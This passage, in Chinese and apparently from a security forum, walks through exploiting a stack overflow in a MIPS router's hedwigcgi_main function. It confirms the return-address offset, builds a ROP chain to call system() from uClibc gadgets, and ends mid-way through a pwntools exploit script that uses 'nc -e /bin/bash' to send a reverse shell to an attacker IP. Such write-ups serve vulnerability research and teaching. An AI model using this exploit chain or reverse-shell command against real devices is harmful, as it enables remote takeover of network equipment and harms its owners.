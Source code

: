 这里下两个断点，一个根据存在漏洞的函数名称下断点，一个下在这个函数的末尾。

![image-20220826151738224.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-db26ca5983c67e3b796b8897bdc32bf9c1b8ca32.png)

然后断在函数末尾时会报错，说没有调到0x42424242的位置，所以说0x42424242（BBBB）已经替换了返回位置，验证了偏移为1009。

![image-20220826162438325.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-e077418eaf42965f11e4097655d9cda57d79578b.png)

构造rop链
------

核心目的就是劫持返回地址，执行system( )函数。为了避免cache incoherency机制，我们利用system函数来构造ROP链进行shell的反弹，而不直接布置shellcode。首先要确定可以调用system函数的libc，利用vmmap查看各区段：

![image-20220826171541542.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-24484e168f3d753868f21d76d94798c5496dde51.png)

有/lib/libc.so.0，查看libc.so.0链接的libc文件,

`ls -l libc.so.0`

```js
lrwxrwxrwx 1 test test 21 Aug 18 20:47 libc.so.0 -> libuClibc-0.9.30.1.so
```

接下来重点分析：

根据ida搜索libuClibc-0.9.30.1.so中的system函数可以得到system的地址为0x00053200，然后通过pwndbg的codebase工具可以得到程序运行的基地址0x77f34000，由于已经关闭了地址随机化，所以该地址可以在调试中多次使用。

![image-20220829113144837.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-cbe823a428c042533773372adf67b50017109693.png)

因为需要构造类似system(cmd)的执行，由于基地址为0x77f34000，system地址为0x00053200，两者相加会出现00造成截断，为了利用可以先将system-1，避免截断的问题，然后通过找gadgets中类似addiu $s0,1命令将system地址恢复。利用mipsrop.find(“addiu $s0,1”)找到gadgets1：0x158c8。

![image-20220830163038253.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-243e75cb20c5c3385c06e599bee0e553f5fa1484.png)

根据上述代码会将system的地址加1，然后跳转到$s5所在的地址，需要将system-1的地址给$s0，然后garget2的地址赋值给$s5。

其中所有给s0-s7寄存器的赋值是通过栈溢出时payload的布局利用如下代码实现的（hedwigci\_main函数返回前的一段指令）：

![image-20220830163714244.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-503ba074733750a4ce5f331cd7191980ab5cc990.png)

那么需要找到给system传参数以及跳转执行的gadgets，利用mipsrop.stackfinder可以找到0x159cc所在的指令gadgets2，这部分指令可以实现将栈上的cmd命令所在的地址赋给$s5,然后jalr跳转到$s0所在的地址执行，由于mips的流水线并行执行会同时会执行jalr下一句move $a0,$s5，$a0为函数调用的参数寄存器，这就在跳转的同时并行完成的给system传参的工作，对这一部分存疑的可以看一下参考链接中关于mips流水线的文章。

![image-20220830153703446.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-6dca4b0811bd75f75e8d984182b6fdddc7bffdbb.png)

通过下图调试，可以知道上面的addiu $s5,$sp,0x170+var\_160中传给$s5的位置是在栈返回地址上面0x10个字节处。所以在payload中在覆盖完返回地址之后需要隔0x10个字节再去放置cmd命令。

![image-20220830112615276.png](https://shs3.b.qianxin.com/attack_forum/2022/08/attach-edc855994de749e08c2d559b1b607e61c32620f9.png)

根据偏移为1009，最终可以得到exp如下：

```js
\*#!/usr/bin/python2\*  
from pwn import \*  
context.endian = "little"  
context.arch = "mips"  
base\_addr = 0x77f34000  
system\_addr\_1 = 0x53200-1  
gadget1 = 0x158c8  
gadget2 = 0x159cc  
cmd = 'nc -e /bin/bash 192.168.100.254 9999'  
padding = 'A' \* 973  
padding += p32(base\_addr + system\_addr\_1) \*# s0\*  
padding += 'A' \* 4            \*# s1\*  
padding += 'A' \* 4            \*# s2\*  
```